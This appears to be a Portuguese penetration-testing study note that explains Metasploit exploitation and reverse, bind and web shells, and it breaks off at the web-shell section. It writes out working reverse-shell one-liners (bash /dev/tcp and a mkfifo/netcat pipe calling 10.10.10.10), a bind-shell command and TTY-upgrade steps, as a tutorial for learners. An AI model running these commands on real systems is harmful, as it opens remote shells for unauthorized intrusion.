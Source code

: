   Depois que tiver a ctz que o alvo é vulnerável, então basta executar o comando run ou exploit, assim o exploit será injetado
  no alvo.
  Depois que injeta, é possível utilizar o comando getuid para informar que usuário ganhou acesso ou shell, para acessar o 
  shell da máquina diretamente.
 
### Types of Shells
  Para se comunicar com o sistema alvo, é necessário realizar através de comandos utilizando um shell
  então é necessário tentar conseguir algum shell, como Reverse Shell, Bind Shell, Web Shell.
  Reverse Shell -> Conecta de volta nosso sistame dá a nós o controle através de conexão reversa.
  Bind Shell -> Espera para que alguém tente conectar no shell
  Web Shell -> Se comunica através de web server, aceita comandos utilizando parametros HTTP, executa eles e mostra o resultado.
  1. Reverse Shell:
   É um dos mais simples e utilizados, nós podemos utilizar o netcat para abrir uma porta na nossa máquina e ficar esperando
   alguma conexão, então quando a gente conseguir invadir a máquina alvo, enviamos um comando para um requisição para o nosso
   ip para a porta que escolhemos e então o netcat gera um shell reverso. 
   (Netcat Listener)
   > Comece um netcat escutando a porta que você quer
   $ nc -lvnp 1234
   > -l para Listen Mode; -v Verbose Mode; -n Desabilita a conexão via DNS, conecta somente por IP; -p Port Number;
   (Connect Back IP):
   > Encontre o seu IP.
   $ ip a
   (Reverse Shell Command):
   > Na máquina alvo a gente executa o seguinte comando:
   $ bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
   $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
   O Reverse Shell pode ser bem frágil, caso nós percamos a conexão com o alvo, é necessário realizar o exploit novamente 
   e executar o Reverse Shell novamente.
  2. Bind Shell
   Em vez de a gente utilizar a máquina alvo para se conectar a nós, utilizamos o nosso pc para se conectar a uma porta
   na máquina alvo e conseguir o Shell.
   Ai basta se conectar a ess porta com o netcat e pronto, temos acesso ao shell.
   (Bind Shell Command):
   Para fazer que o host crie um bind shell, pode utilizar o bash:
   $ rm /tmp/f;mkfifo /tmp/f/;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
   (Netcat Connection):
   Agora só conectar no host
   $ nc 10.10.10.1 1234
   (Upgrading TTY):
   Quando a gente consegue acesso ao shell, não podemos utilizar algumas features como historico de comando e edição de comando
   para isso a gente dar um upgrade no shell, podemos utilizar o python para isso.
   $ python -c 'import pty; pty.spawn("/bin/bash")'
   * ctrl+z para executar o comando em background.
   $ stty raw -echo
   $ fg
   $ echo $TERM
   $ stty size
   # export TERM=xterm-256color
   # stty rows 67 columns 318
  3. Web Shell